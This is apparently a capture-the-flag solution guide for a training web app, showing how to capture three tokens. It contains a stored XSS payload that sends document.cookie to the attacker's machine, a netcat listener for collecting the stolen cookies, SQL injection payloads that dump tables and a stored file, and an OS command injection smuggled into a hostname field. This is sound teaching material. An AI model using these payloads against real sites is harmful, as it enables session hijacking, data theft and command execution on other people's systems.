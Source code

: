 # In Plain Site

_Solution Guide_


## Overview

For this challenge, there are a total of three tasks that need to be completed to get all the points available. These tasks revolve around analyzing a website and using any means necessary to elevate your privileges and find the three hex tokens associated with the site.

>**Note:** You will need to create your own account on the site before following this solution guide.

## High-jacking User Session with XSS

When on certain pages of the site, you will see that at the bottom of the page is a section where it shows the most recent comment that was made. After some analyzing of the site and testing, you will find that this section is vulnerable to a XSS attack. 

You can test it by making a comment, this can be on any post (new or already made) in order to make it so your comment is shown.

You can test if XSS will work by commenting on a post with the following code snippet:

`    <script>alert('XSS Vuln')</script>
`
If you then browse to the home page, you will see an alert pop and that will confirm that it is vulnerable to a XSS attack and so you know that you have the possibility of stealing session cookies from anyone who would browse to the website. 

From here you should start crafting your attack. Below are steps to implement it:

1. Create comment on post with the following code (edit to input the IP of your machine):

```javascript
    <script>new Image().src="http://**YOUR VM IP**/bogus.php?output="+document.cookie;</script>
```

2. Create a small script to implement a listener for connections that will be created from your XSS code being executed by another user. 

```bash
    while :
    do
        nc -lvp 80 
    done
```

3. From here, you can keep an eye on the terminal with the listener running. If you've done it correctly you should start to get output that looks like this:

<img src="img/xssOutput.PNG">

With this response, you can see the cookies from the user's session are present in the response and can be read after the string `output=`.
You should see that you have received two cookies:
 - `Session`
 - `Remember_token`

You now need to use these tokens in Firefox to highjack their session. This can be done by following these steps:

- Go to `bugle:5000` web page and make sure you're logged out.
- Open Firefox web dev tools (right click, select `inspect`).
- Go to the section `storage`.
- Expand the side section `cookies`.
- Click on the `+` in the top right of the dev tools to create new item.
- Set the name of it to the first cookie found:    `session`.
- Put the value of it as the string found after `session=` up until the `;` character as it signifies the end of the cookie for the first one.
- Repeat the entire process, but this time as the `remember_token` and its value. It will not have a `;` at the end of the string, the first space found will signify the end of this cookie.

It should look like this:

<img src="img/addCookie.PNG">

If done correctly, when you refresh the page, you should now be high-jacking the session of one of the users.

There are four users who will be browsing the site throughout the challenges duration, in order to proceed you will need to determine which user has elevated privileges. This can be done with trial and error of trying each of the cookies that are received until the correct one is found.

The user you will be looking for is `Eddie Brock` also known as `teamBrocket`. 

Once you log in you will see the `first token` will be posted in the top left of your page.


## Retrieving Files via SQL Injection

Once you get access, you will notice that you now have access to a new page on the site labeled `User Management`. This page is meant to search users and perform any changes on their accounts as needed.

If you look at the pages source code, you can see there is a script being used that is not used anywhere else on the site. 

<img src="img/userManagementScript.PNG">

You should gather that this script is meant to submit the value `*` into the search function if the field to search by is `None` and if the search string is '' (empty string).

This should be a hint that it is submitting this value to be ran within a SQL statement and that there is a vulnerability here for altering the statement to get the contents of the SQL Database. 

You can run the following command to view the contents of the database:

```sql
    * from sqlite_schema where type='table'--' 
```

The output will then be all the tables in the database as well as their structure. Since your goal is to get a specific file from the `File` table in the database, you can get the contents of that table with the following command:

```sql
    * from File--'
```

You'll see there are three files present, but the one you will want is `backup.pdf`. You can retrieve this file by specifying its `id` number within the SQL command:

```sql
    * from File where id=3--'
```

If you then compare the structure of the database found in the first SQL command with the output of the command retrieving `backup.pdf` you will find that the file is stored in the `blob` section of the record. The `blob` is stored in a byte format, so you will need to convert it back into a file before you can read it. Below is a python script that will handle converting it to file.

```python
    #/usr/bin/python3
    import io

    blob = b'**BLOB STRING HERE'
    bb = io.BytesIO()
    bb.write(blob)

    with open('file.pdf', 'wb') as f:
        f.write(bb.getbuffer())
```

You can now open the file and the `second token` will be present as well as the backup master credentials for the site.

## OS Command Injection

Now that you have the credentials for the highest permission account, you can view the `Scan Hosts` page.

It will prompt you to enter a hostname, and once you do it will return output that the VM is running a quick nmap scan against the host you entered.

From here you can then test trying to alter the command being entered. With trial and error, you can find the location of the final file labeled `token3.txt` and get the contents of it.

The following command will complete an OS Command Injection and get you the third token to complete this challenge.

```shell
    kali >/dev/null && cat /home/user/Desktop/site/static/token3.txt #
```
